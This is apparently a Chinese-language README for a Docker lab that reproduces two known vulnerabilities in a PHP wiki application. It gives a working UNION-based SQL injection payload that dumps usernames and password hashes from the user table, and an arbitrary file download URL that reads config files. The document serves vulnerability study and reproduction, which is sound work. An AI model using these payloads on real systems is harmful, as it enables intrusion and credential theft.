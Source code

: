 ## 系统安装

```
docker-compose build 
docker-compose up -d
```



## 漏洞一:
/control/edition.php sql注入漏洞

PAYLOAD:
eid[0]=2&eid[1]=19&eid[2]=-3) UNION SELECT 1,2,35,4,5,6,7,8,9,10,user(),username,password,14,15,16,17,18,19 from wiki_user%23
![](zoro1.png)

## 漏洞二:
任意文件下载漏洞，此漏洞需要admin权限才能下载
http://127.0.0.1:8002/index.php?admin_db-downloadfile-/**/**/config*php


[引用一](http://0day5.com/archives/2978/)

[引用二](https://www.seebug.org/vuldb/ssvid-91814)

[引用三](http://blog.sina.com.cn/s/blog_6920343901011jmh.html)

[引用四](https://bugs.leavesongs.com/php/hdwiki%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD/)

[引用五](https://www.secpulse.com/archives/7852.html)

[引用六](http://www.yunsec.net/a/security/bugs/script/2012/0406/10410.html)

[引用七](https://www.secpulse.com/archives/32842.html)


